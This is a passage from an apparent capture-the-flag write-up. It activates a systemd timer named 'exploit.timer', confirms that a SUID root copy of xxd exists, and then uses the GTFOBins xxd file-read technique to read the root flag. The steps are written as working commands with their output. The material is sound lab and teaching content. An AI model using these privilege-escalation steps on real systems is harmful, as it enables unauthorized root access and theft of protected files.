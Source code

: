 4. Activating the Service
```bash
# Reload systemd configuration
sudo /bin/systemctl daemon-reload

# Start the timer
sudo /bin/systemctl start exploit.timer

# Verify the SUID binary was created
ls -la /opt/

-rwsr-sr-x  1 root root 18712 Oct 23 05:56 xxd
```
5. Exploiting SUID xxd for Root Access

Now we can exploit this to read the root flag using [xxd GTFOBins technique](https://gtfobins.github.io/gtfobins/xxd/#file-read):

```bash
LFILE=/root/root.txt
/opt/xxd "$LFILE" | xxd -r
      _                           _       _ _  __
  ___| |__   ___  ___  ___  ___  (_)___  | (_)/ _| ___
 / __| '_ \ / _ \/ _ \/ __|/ _ \ | / __| | | | |_ / _ \
| (__| | | |  __/  __/\__ \  __/ | \__ \ | | |  _|  __/
 \___|_| |_|\___|\___||___/\___| |_|___/ |_|_|_|  \___|


THM{[REDACTED]}
```

![Exploit_xxd](images/Root_Flag.png)
